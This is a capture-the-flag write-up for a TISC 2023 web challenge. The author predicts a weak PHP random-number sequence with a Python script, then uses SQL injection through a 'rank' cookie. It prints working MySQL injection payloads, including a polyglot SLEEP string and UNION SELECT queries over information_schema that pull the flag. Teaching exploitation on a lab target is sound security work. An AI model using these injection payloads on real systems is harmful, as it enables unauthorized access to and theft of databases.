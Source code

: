Overall, I feel this challenge was comparitively straightforward and provided some respite from the previous challenges.

We are asked to guess a number on the landing page, and the number seems to be randomly generated each time:

![number guessing page](/the-chosen-ones-first.png)

Initially, I assumed the php `rand()` function was being used, and spent sometime researching on methods to predict the next random value based on previous outputs. This was largely unsuccessful. However, I eventually realised the source code for generating the 6 digit number was provided in a base32 encoded comment in the html.

```php
function random() {
  $prev = $_SESSION["seed"];
  $current = (int)$prev ^ 844742906;
  $current = decbin($current);
  while (strlen($current) < 32) {
    $current = "0" . $current;
  }
  $first = substr($current, 0, 7);
  $second = substr($current, 7, 25);
  $current = $second . $first;
  $current = bindec($current);
  $_SESSION["seed"] = $current;
  return $current % 1000000;
}
```

After studying this function for a while, I realised it produces a sequence that eventually repeats after being run a certain number of times due to the way the string is being rotated and xored. I wrote some code to check this:

```php
$a = random();
for ($i = 1; ; $i++) {
  if (random() == $a) {
    echo $i . "\n";
    break;
  }
}
```

This printed 64. So the first number will be the same as the 65th number produced. I wrote a python script:

```python:s.py
import requests
import re

sess = requests.Session()

sess.get('http://chals.tisc23.ctf.sg:51943/index.php')

resp = sess.get('http://chals.tisc23.ctf.sg:51943/index.php?entry=aoeu')
a = int(re.search('The lucky number was (\d+?)<BR>', resp.text).group(1))

for _ in range(63):
    sess.get('http://chals.tisc23.ctf.sg:51943/index.php?entry=aoeu')

resp = sess.get('http://chals.tisc23.ctf.sg:51943/index.php?entry=' + str(a))
print(resp.text)

print(sess.cookies.get_dict())

sess.close()
```

```plaintext
<center>
Personnel List <br>
<iframe src="table.php" title="personnel" width="750" height="1500" frameBorder="0">
</center>

{'PHPSESSID': 'srav744br8cui13r6dgb15j2cv', 'rank': '0'}
```

I copied the `PHPSESSID` and `rank` cookies into Chrome, and viewed `/table.php`.

![table](/the-chosen-ones-table.png)

I tried some standard sql injection payloads such as `' or 1=1;--`, however they didn't seem to work. I then tried a polyglot injection payload I found on PayloadAllTheThings:

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```

This yielded no results on both the username and password fields.

Then I remembered the strange `rank` cookie and tried to figure out what it did. I changed the value to 1, and this time the table was larger:

![table](/the-chosen-ones-table-2.png)

Changing the value to 2, I could see more rows with users of rank 2 as well. So rank is probably included in the sql query as well and a possible vector for sql injection. I set rank to the polyglot injection payload above and sent another request. This time, the request returned a server error after a while, so the sql injection was successful.

Next, I had to identify the type of database. Referring to this [list of payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#dbms-identification), I sent `rank=1 and conv('a',16,2)=conv('a',16,2);--` and it succeeded, showing that the underlying database is MySQL.

Next, we have to extract information about the db schema. Following [this section](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema), I sent a request with `rank=-1 union select schema_name, 1, 1, 1 from information_schema.schemata;--`

There are 3 schemas, `information_schema`, `palindrome`, and `performance_schema`. palindrome seems to be what we want, so I listed the tables there with `rank=-1 union select table_name, 1, 1, 1 from information_schema.tables where table_schema = "palindrome";--`.

There were 2 tables, `CTF_SECRET` and `PERSONNEL`. I listed the columns in the `CTF_SECRET` table using `rank=-1 union select column_name, 1, 1, 1 from information_schema.columns where table_name = "CTF_SECRET";--`. There was only one column: `flag`.

I sent my final request with `rank=-1 union select flag, 1, 1, 1 from palindrome.CTF_SECRET;--`, and got the flag: `TISC{Y0u_4rE_7h3_CH0s3n_0nE}`.